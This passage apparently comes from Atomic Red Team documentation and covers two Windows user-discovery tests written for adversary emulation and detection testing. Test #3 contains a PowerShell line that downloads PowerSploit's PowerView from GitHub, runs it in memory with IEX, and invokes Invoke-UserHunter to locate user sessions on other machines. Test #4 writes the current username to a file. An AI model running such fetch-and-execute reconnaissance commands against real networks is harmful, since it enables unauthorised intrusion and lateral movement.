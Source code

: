 




<br/>
<br/>

## Atomic Test #3 - Find computers where user has session - Stealth mode (PowerView)
Find existing user session on other computers. Upon execution, information about any sessions discovered will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** 29857f27-a36f-4f7e-8084-4557cd6207ca






#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (IWR 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f94a5d298a1b4c5dfb1f30a246d9c73d13b22888/Recon/PowerView.ps1' -UseBasicParsing); Invoke-UserHunter -Stealth -Verbose
```






<br/>
<br/>

## Atomic Test #4 - User Discovery With Env Vars PowerShell Script
Use the PowerShell environment variables to identify the current logged user.

**Supported Platforms:** Windows


**auto_generated_guid:** dcb6cdee-1fb0-4087-8bf8-88cfd136ba51






#### Attack Commands: Run with `powershell`! 


```powershell
[System.Environment]::UserName | Out-File -FilePath .\CurrentactiveUser.txt 
$env:UserName | Out-File -FilePath .\CurrentactiveUser.txt -Append
```

#### Cleanup Commands:
```powershell
Remove-Item -Path .\CurrentactiveUser.txt -Force
```
